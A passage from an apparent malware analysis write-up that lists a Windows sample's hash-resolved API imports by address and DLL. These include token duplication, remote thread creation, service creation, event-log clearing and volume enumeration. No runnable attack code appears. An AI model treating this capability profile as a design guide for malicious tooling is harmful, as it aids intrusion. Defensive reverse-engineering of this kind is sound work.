
.
	- api (`0x425410`) ~ [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap)
	<div align="center"></div>
	- api (`0x425414`) ~ [`RtlDestroyHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtldestroyheap)
	<div align="center"></div>
	- api (`0x425418`) ~ [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap)
	<div align="center"></div>
	- api (`0x42541C`) ~ [`RtlReallocateHeap`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FHeap%20Memory%2FRtlReAllocateHeap.html)
	<div align="center"></div>
	- api (`0x425420`) ~ [`RtlFreeHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlfreeheap)
	<div align="center"></div>
	- api (`0x425424`) ~ [`memcpy`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)
	<div align="center"></div>
	- api (`0x425428`) ~ [`memset`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memset-wmemset?view=msvc-170)
	<div align="center"></div>
	- api (`0x42542C`) ~ [`memmove`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memmove-wmemmove?view=msvc-170)
	<div align="center"></div>
	- api (`0x425430`) ~ [`strlen`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strlen-wcslen-mbslen-mbslen-l-mbstrlen-mbstrlen-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x425434`) ~ [`strcpy`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strcpy-wcscpy-mbscpy?view=msvc-170)
	<div align="center"></div>
	- api (`0x425438`) ~ [`strstr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strstr-wcsstr-mbsstr-mbsstr-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x42543C`) ~ [`wcslen`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strlen-wcslen-mbslen-mbslen-l-mbstrlen-mbstrlen-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x425440`) ~ [`wcscat`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strcat-wcscat-mbscat?view=msvc-170)
	<div align="center"></div>
	- api (`0x425444`) ~ [`wcscpy`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strcpy-wcscpy-mbscpy?view=msvc-170)
	<div align="center"></div>
	- api (`0x425448`) ~ [`wcsstr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strstr-wcsstr-mbsstr-mbsstr-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x42544C`) ~ [`wcschr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strchr-wcschr-mbschr-mbschr-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x425450`) ~ [`wcsrchr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strrchr-wcsrchr-mbsrchr-mbsrchr-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x425454`) ~ [`\_wcsicmp`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/stricmp-wcsicmp-mbsicmp-stricmp-l-wcsicmp-l-mbsicmp-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x425458`) ~ [`\_wcslwr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strlwr-wcslwr-mbslwr-strlwr-l-wcslwr-l-mbslwr-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x42545C`) ~ [`\_wcsupr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strupr-strupr-l-mbsupr-mbsupr-l-wcsupr-l-wcsupr?view=msvc-170)
	<div align="center"></div>
	- api (`0x425460`) ~ [`\_strupr`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strupr-strupr-l-mbsupr-mbsupr-l-wcsupr-l-wcsupr?view=msvc-170)
	<div align="center"></div>
	- api (`0x425464`) ~ [`\_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x425468`) ~ [`sprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170)
	<div align="center"></div>
	- api (`0x42546C`) ~ [`\_ui64toa`](https://learn.microsoft.com/en-us/previous-versions/yakksftt(v=vs.140))
	<div align="center"></div>
	- api (`0x425470`) ~ [`\_alldiv`](https://learn.microsoft.com/en-us/windows/win32/devnotes/-win32-alldiv)
	<div align="center"></div>
	- api (`0x425474`) ~ [`NtOpenProcess`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-ntopenprocess)
	<div align="center"></div>
	- api (`0x425478`) ~ [`ZwDuplicateToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicatetoken)
	<div align="center"></div>
	- api (`0x42547C`) ~ [`ZwDuplicateObject`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicateobject)
	<div align="center"></div>
	- api (`0x425480`) ~ [`ZwSetThreadExecutionState`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwSetThreadExecutionState.html)
	<div align="center"></div>
	- api (`0x425484`) ~ [`NtSetInformationProcess`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FProcess%2FNtSetInformationProcess.html)
	<div align="center"></div>
	- api (`0x425488`) ~ [`NtQuerySystemInformation`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation)
	<div align="center"></div>
	- api (`0x42548C`) ~ [`ZWQueryInformationProcess`](https://learn.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess)
	<div align="center"></div>
	- api (`0x425490`) ~ [`NtQueryInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntqueryinformationtoken)
	<div align="center"></div>
	- api (`0x425494`) ~ [`NtSetInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntsetinformationtoken)
	<div align="center"></div>
	- api (`0x425498`) ~ [`ZwSetInformationThread`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-zwsetinformationthread)
	<div align="center"></div>
	- api (`0x42549C`) ~ [`NtSetSecurityObject`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntsetsecurityobject)
	<div align="center"></div>
	- api (`0x4254A0`) ~ [`NtOpenProcessToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntopenprocesstoken)
	<div align="center"></div>
	- api (`0x4254A4`) ~ [`ZwShutdownSystem`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwShutdownSystem.html)
	<div align="center"></div>
	- api (`0x4254A8`) ~ [`RtlAdjustPrivilege`](https://ntdoc.m417z.com/rtladjustprivilege)
	<div align="center"></div>
	- api (`0x4254AC`) ~ [`RtlInializeCriticalSection`](https://ntdoc.m417z.com/rtlinitializecriticalsection)
	<div align="center"></div>
	- api (`0x4254B0`) ~ [`RtlEnterCriticalSection`](https://ntdoc.m417z.com/rtlentercriticalsection)
	<div align="center"></div>
	- api (`0x4254B4`) ~ [`RtlLeaveCriticalSection`](https://ntdoc.m417z.com/rtlleavecriticalsection)
	<div align="center"></div>
	- api (`0x4254B8`) ~ [`RtlDeleteCriticalSection`](https://ntdoc.m417z.com/rtldeletecriticalsection)
	<div align="center"></div>
	- api (`0x4254BC`) ~ [`RtlInitUnicodeString`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlinitunicodestring)
	<div align="center"></div>
	- api (`0x4254C0`) ~ [`RtlSetHeapInformation`](https://ntdoc.m417z.com/rtlsetheapinformation)
	<div align="center"></div>
	- api (`0x4254C4`) ~ [`LdrEnumerateLoadedModules`](https://ntdoc.m417z.com/ldrenumerateloadedmodules)
	<div align="center"></div>
	- api (`0x4254C8`) ~ [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess)
	<div align="center"></div>
	- api (`0x4254CC`) ~ [`ZwTerminateThread`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwTerminateThread.html)
	<div align="center"></div>
	- api (`0x4254D0`) ~ [`ZwClose`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwClose.html)
	<div align="center"></div>
	- api (`0x4254D4`) ~ [`ZwPrivilegeCheck`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwPrivilegeCheck.html)
	<div align="center"></div>
	- api (`0x4254D8`) ~ [`ZwWriteVirtualMemory`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwWriteVirtualMemory.html)
	<div align="center"></div>
	- api (`0x4254DC`) ~ [`ZwReadVirtualMemory`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwReadVirtualMemory.html)
	<div align="center"></div>
	- api (`0x4254E0`) ~ [`ZwProtectVirtualMemory`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwProtectVirtualMemory.html)
	<div align="center"></div>
	- api (`0x4254E4`) ~ [`NtAllocateVirtualMemory`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory)
	<div align="center"></div>
	- api (`0x4254E8`) ~ [`NtFreeVirtualMemory`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntfreevirtualmemory)
	<div align="center"></div>
	- api (`0x4254EC`) ~ [`RtlWow64EnableFsRedirectionEx`](https://ntdoc.m417z.com/rtlwow64enablefsredirectionex)
	<div align="center"></div>
	- api (`0x4254F0`) ~ [`NtQueryInstallUILanguage`](https://ntdoc.m417z.com/ntqueryinstalluilanguage)
	<div align="center"></div>
	- api (`0x4254F4`) ~ [`NtQueryDefaultUILanguage`](https://ntdoc.m417z.com/ntquerydefaultuilanguage)
	<div align="center"></div>
	- api (`0x4254F8`) ~ [`RtlTimeToTimeFields`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtltimetotimefields)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x4254fc` ([`kernel32.dll`](https://www.geoffchappell.com/studies/windows/win32/kernel32/api/index.htm)): 
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`kernel32.dll`](https://www.geoffchappell.com/studies/windows/win32/kernel32/api/index.htm) DLL.
<div align="center"></div>

.
	- api (`0x425500`) ~ [`SetFileAttributesW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileattributesw)
	<div align="center"></div>
	- api (`0x425504`) ~ [`GetFileAttributesW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfileattributesw)
	<div align="center"></div>
	- api (`0x425508`) ~ [`FindFirstFileExW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfileexw)
	<div align="center"></div>
	- api (`0x42550C`) ~ [`FindNextFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findnextfilew)
	<div align="center"></div>
	- api (`0x425510`) ~ [`FindClose`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findclose)
	<div align="center"></div>
	- api (`0x425514`) ~ [`CopyFileW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfilew)
	<div align="center"></div>
	- api (`0x425518`) ~ [`MoveFileExW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexw)
	<div align="center"></div>
	- api (`0x42551C`) ~ [`CreateThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
	<div align="center"></div>
	- api (`0x425520`) ~ [`CreateRemoteThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
	<div align="center"></div>
	- api (`0x425524`) ~ [`ResumeThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)
	<div align="center"></div>
	- api (`0x425528`) ~ [`CreateFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew)
	<div align="center"></div>
	- api (`0x42552C`) ~ [`WriteFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)
	<div align="center"></div>
	- api (`0x425530`) ~ [`ReadFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile)
	<div align="center"></div>
	- api (`0x425534`) ~ [`FlushFileBuffers`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-flushfilebuffers)
	<div align="center"></div>
	- api (`0x425538`) ~ [`WinExec`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec)
	<div align="center"></div>
	- api (`0x42553C`) ~ [`Sleep`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleep)
	<div align="center"></div>
	- api (`0x425540`) ~ [`GetOverlappedResult`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-getoverlappedresult)
	<div align="center"></div>
	- api (`0x425544`) ~ [`SetFilePointerEx`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfilepointerex)
	<div align="center"></div>
	- api (`0x425548`) ~ [`WaitForSingleObject`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)
	<div align="center"></div>
	- api (`0x42554C`) ~ [`WaitForMultipleObjects`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjects)
	<div align="center"></div>
	- api (`0x425550`) ~ [`CreateIoCompletionPort`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-createiocompletionport)
	<div align="center"></div>
	- api (`0x425554`) ~ [`GetQueuedCompletionStatus`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-getqueuedcompletionstatus)
	<div align="center"></div>
	- api (`0x425558`) ~ [`PostQueuedCompletionStatus`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-postqueuedcompletionstatus)
	<div align="center"></div>
	- api (`0x42555C`) ~ [`InterlockedIncrement`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-interlockedincrement)
	<div align="center"></div>
	- api (`0x425560`) ~ [`GetExitCodeThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getexitcodethread)
	<div align="center"></div>
	- api (`0x425564`) ~ [`GetLogicalDriveStringsW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getlogicaldrivestringsw)
	<div align="center"></div>
	- api (`0x425568`) ~ [`GetDriveTypeW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getdrivetypew)
	<div align="center"></div>
	- api (`0x42556C`) ~ [`GetDiskFreeSpaceExW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getdiskfreespaceexw)
	<div align="center"></div>
	- api (`0x425570`) ~ [`DeleteFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-deletefilew)
	<div align="center"></div>
	- api (`0x425574`) ~ [`CreateDirectoryW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createdirectoryw)
	<div align="center"></div>
	- api (`0x425578`) ~ [`RemoveDirectoryW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-removedirectoryw)
	<div align="center"></div>
	- api (`0x42557C`) ~ [`OpenMutexW`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-openmutexw)
	<div align="center"></div>
	- api (`0x425580`) ~ [`CreateMutexW`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-createmutexw)
	<div align="center"></div>
	- api (`0x425584`) ~ [`ReleaseMutex`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-releasemutex)
	<div align="center"></div>
	- api (`0x425588`) ~ [`GetCurrentDirectoryW`](https://docs.rs/winapi/latest/i686-pc-windows-msvc/winapi/um/processenv/fn.GetCurrentDirectoryW.html)
	<div align="center"></div>
	- api (`0x42558C`) ~ [`SetCurrentDirectoryW`](https://docs.rs/winapi/latest/i686-pc-windows-msvc/winapi/um/processenv/fn.SetCurrentDirectoryW.html)
	<div align="center"></div>
	- api (`0x425590`) ~ [`GetTickCount`](https://learn.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-gettickcount)
	<div align="center"></div>
	- api (`0x425594`) ~ [`GetComputerNameW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamew)
	<div align="center"></div>
	- api (`0x425598`) ~ [`SetVolumeMountPointW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setvolumemountpointw)
	<div align="center"></div>
	- api (`0x42559C`) ~ [`SetThreadPriority`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadpriority)
	<div align="center"></div>
	- api (`0x4255A0`) ~ [`GetVolumePathNameW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getvolumepathnamew)
	<div align="center"></div>
	- api (`0x4255A4`) ~ [`FindFirstVolumeW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstvolumew)
	<div align="center"></div>
	- api (`0x4255A8`) ~ [`FindNextVolumeW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findnextvolumew)
	<div align="center"></div>
	- api (`0x4255AC`) ~ [`FindVolumeClose`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findvolumeclose)
	<div align="center"></div>
	- api (`0x4255B0`) ~ [`DeviceIoControl`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol)
	<div align="center"></div>
	- api (`0x4255B4`) ~ [`GetVolumePathNamesForVolumeNameW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getvolumepathnamesforvolumenamew)
	<div align="center"></div>
	- api (`0x4255B8`) ~  [`GetVolumeNameForVolumeMountPointW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getvolumenameforvolumemountpointw)
	<div align="center"></div>
	- api (`0x4255BC`) ~ [`GetSystemTime`](https://learn.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-getsystemtime)
	<div align="center"></div>
	- api (`0x4255C0`) ~ [`GetSystemTimeAsFileTime`](https://learn.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-getsystemtimeasfiletime)
	<div align="center"></div>
	- api (`0x4255C4`) ~ [`FileTimeToLocalFileTime`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-filetimetolocalfiletime)
	<div align="center"></div>
	- api (`0x4255C8`) ~ [`ExitProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess)
	<div align="center"></div>
	- api (`0x4255CC`) ~ [`GetEnvironmentVariableW`](https://learn.microsoft.com/en-us/windows/win32/api/processenv/nf-processenv-getenvironmentvariablew)
	<div align="center"></div>
	- api (`0x4255D0`) ~ [`GetShortPathNameW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getshortpathnamew)
	<div align="center"></div>
	- api (`0x4255D4`) ~ [`CreateProcessW`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)
	<div align="center"></div>
	- api (`0x4255D8`) ~ [`CreateNamedPipeW`](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-createnamedpipew)
	<div align="center"></div>
	- api (`0x4255DC`) ~ [`ConnectNamedPipe`](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-connectnamedpipe)
	<div align="center"></div>
	- api (`0x4255E0`) ~ [`GetTempFileNameW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-gettempfilenamew)
	<div align="center"></div>
	- api (`0x4255E4`) ~ [`GlobalFree`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-globalfree)
	<div align="center"></div>
	- api (`0x4255E8`) ~ [`MulDiv`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-muldiv)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x4255ec` ([`advapi32.dll`](https://www.geoffchappell.com/studies/windows/win32/advapi32/index.htm?ta=11&tx=50)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`advapi32.dll`](https://www.geoffchappell.com/studies/windows/win32/advapi32/index.htm?ta=11&tx=50) DLL.
<div align="center"></div>

.
	- api (`0x4255F0`) ~ [`MD4Init`](https://nxmnpg.lemoda.net/3/MD4)
	<div align="center"></div>
	- api (`0x4255F4`) ~ [`MD4Update`](https://nxmnpg.lemoda.net/3/MD4)
	<div align="center"></div>
	- api (`0x4255F8`) ~ [`MD4Final`](https://nxmnpg.lemoda.net/3/MD4)
	<div align="center"></div>
	- api (`0x4255FC`) ~ [`MD5Init`](https://nxmnpg.lemoda.net/3/MD5)
	<div align="center"></div>
	- api (`0x425600`) ~ [`MD5Update`](https://nxmnpg.lemoda.net/3/MD5)
	<div align="center"></div>
	- api (`0x425604`) ~ [`MD5Final`](https://nxmnpg.lemoda.net/3/MD5)
	<div align="center"></div>
	- api (`0x425608`) ~ [`SetNamedSecurityInfoW`](https://learn.microsoft.com/en-us/windows/win32/api/aclapi/nf-aclapi-setnamedsecurityinfow)
	<div align="center"></div>
	- api (`0x42560C`) ~ [`RegCreateKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexw)
	<div align="center"></div>
	- api (`0x425610`) ~ [`RegSetValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexw)
	<div align="center"></div>
	- api (`0x425614`) ~ [`RegQueryValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexw)
	<div align="center"></div>
	- api (`0x425618`) ~ [`RegDeleteKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regdeletekeyexw)
	<div align="center"></div>
	- api (`0x42561C`) ~ [`RegDeleteKeyW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regdeletekeyw)
	<div align="center"></div>
	- api (`0x425620`) ~ [`RegEnumKeyW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regenumkeyw)
	<div align="center"></div>
	- api (`0x425624`) ~ [`OpenSCManagerW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openscmanagerw)
	<div align="center"></div>
	- api (`0x425628`) ~ [`EnumServicesStatusExW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-enumservicesstatusexw)
	<div align="center"></div>
	- api (`0x42562C`) ~ [`OpenServiceW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openservicew)
	<div align="center"></div>
	- api (`0x425630`) ~ [`CreateServiceW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicew)
	<div align="center"></div>
	- api (`0x425634`) ~ [`StartServiceW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-startservicew)
	<div align="center"></div>
	- api (`0x425638`) ~ [`SetServiceStatus`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-setservicestatus)
	<div align="center"></div>
	- api (`0x42563C`) ~ [`QueryServiceStatusEx`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-queryservicestatusex)
	<div align="center"></div>
	- api (`0x425640`) ~ [`ControlService`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-controlservice)
	<div align="center"></div>
	- api (`0x425644`) ~ [`DeleteService`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-deleteservice)
	<div align="center"></div>
	- api (`0x425648`) ~ [`CloseServiceHandle`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-closeservicehandle)
	<div align="center"></div>
	- api (`0x42564C`) ~ [`StartServiceCtrlDispatcherW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-startservicectrldispatcherw)
	<div align="center"></div>
	- api (`0x425650`) ~ [`RegisterServiceCtrlHandlerW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-registerservicectrlhandlerw)
	<div align="center"></div>
	- api (`0x425654`) ~ [`CreateProcessAsUserW`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasuserw)
	<div align="center"></div>
	- api (`0x425658`) ~ [`LogonUserW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw)
	<div align="center"></div>
	- api (`0x42565C`) ~ [`GetUserNameW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getusernamew)
	<div align="center"></div>
	- api (`0x425660`) ~ [`ConvertSidToStringSidW`](https://learn.microsoft.com/en-us/windows/win32/api/sddl/nf-sddl-convertsidtostringsidw)
	<div align="center"></div>
	- api (`0x425664`) ~ [`LsaOpenPolicy`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaopenpolicy)
	<div align="center"></div>
	- api (`0x425668`) ~ [`LsaStorePrivateData`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsastoreprivatedata)
	<div align="center"></div>
	- api (`0x42566C`) ~ [`LsaClose`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaclose)
	<div align="center"></div>
	- api (`0x425670`) ~ [`SystemFunction040`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtlencryptmemory)
	<div align="center"></div>
	- api (`0x425674`) ~ [`SystemFunction041`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory)
	<div align="center"></div>
	- api (`0x425678`) ~ [`CheckTokenMemebership`](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-checktokenmembership)
	<div align="center"></div>
	- api (`0x42567C`) ~ [`OpenEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw)
	<div align="center"></div>
	- api (`0x425680`) ~ [`ClearEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw)
	<div align="center"></div>
	- api (`0x425684`) ~ [`CloseEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-closeeventlog)
	<div align="center"></div>
	- api (`0x425688`) ~ [`CreateProcessWithLogonW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x42568c` ([`userenv.dll`](https://windows10dll.nirsoft.net/userenv_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`userenv.dll`](https://windows10dll.nirsoft.net/userenv_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x425690`) ~ [`CreateEnvironmentBlock`](https://learn.microsoft.com/en-us/windows/win32/api/userenv/nf-userenv-createenvironmentblock)
	<div align="center"></div>
	- api (`0x425694`) ~ [`DestroyEnvironmentBlock`](https://learn.microsoft.com/en-us/windows/win32/api/userenv/nf-userenv-destroyenvironmentblock)
	<div align="center"></div>
	- api (`0x425698`) ~ [`RefreshPolicyEx`](https://learn.microsoft.com/en-us/windows/win32/api/userenv/nf-userenv-refreshpolicyex)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x42569c` ([`user32.dll`](https://windows10dll.nirsoft.net/user32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`user32.dll`](https://windows10dll.nirsoft.net/user32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x4256A0`) ~ [`GetDC`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getdc)
	<div align="center"></div>
	- api (`0x4256A4`) ~ [`ReleaseDC`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-releasedc)
	<div align="center"></div>
	- api (`0x4256A8`) ~ [`DrawTextW`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-drawtextw)
	<div align="center"></div>
